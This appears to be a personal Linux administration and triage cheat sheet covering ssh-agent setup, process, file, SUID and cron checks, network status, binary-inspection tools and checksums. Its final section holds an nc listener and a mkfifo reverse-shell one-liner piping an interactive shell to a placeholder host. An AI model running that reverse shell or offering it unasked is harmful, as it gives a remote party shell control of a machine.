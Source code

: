 ...

## **error:25066067:DSO support routines:dlfcn_load:could not load the shared library**

tmp fix: `export OPENSSL_CONF=/dev/null`

`export TERM=xterm-256color`

"eval `ssh-agent` && ssh-add"


## Load snaps profile

`sudo apparmor_parser -r /var/lib/snapd/apparmor/profiles/*`

## Checks

### System
- `ps -ef`
- `top -p PID`
- `uname -a; env; history`
- `systemctl list-unit-files`
- `tail -f /var/log/messages`
- `find / -mtime -7`
- `find / -type f -mmin -60`
- `nmap -sT -v localhost`
- `find /dir -executable -type f`

### Who
`who; w; last`

### Super users
`grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1 }'`

### SUID / GUID
- `find / -perm -u=s -type f 2>/dev/null`
- `find / -type f -perm -04000 2> /dev/null`
- `find / -type f -perm -02000 2> /dev/null`

### Net status
- `ss -antup; lsof -i`
- `netstat -anp`

### List crons
`crontab -l; ls -la /etc/cron*`

### history

`~/.bash_history`

### Create file

`dd if=/dev/zero of=foobar.txt bs=1M count=<number_of_megabytes>`

### Random string

`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 23 | head -n 1`

## Commands
```shell
strace # Display the system calls and signals of a specific program
lsof # List open files (process)
stat # Display file or file system status
modinfo # Show information about a Linux Kernel module
modprobe # Add and remove modules from the Linux Kernel
lsmod # Show the status of modules in the Linux Kernel
dmesg # Print or control the kernel ring buffer (logs)
watch # Execute a program periodically, showing output fullscreen
xxd # Make a hexdump or do the reverse
readelf # Display information about ELF files
objdump # Display information from object files
strings # Display text strings embedded in binary
exiftool # Show/Remove files metadata
```

### md5sum

```sh
find . -type f ! -name checksums.md5 -exec md5sum {} + > checksums.md5
md5sum -c checksums.md5
```

### -1

`nc -lvp 4444`
```sh
mkfifo /tmp/fifo
sh -i < /tmp/fifo 2>&1 | nc IP_LISTENER 4444 > /tmp/fifo
```
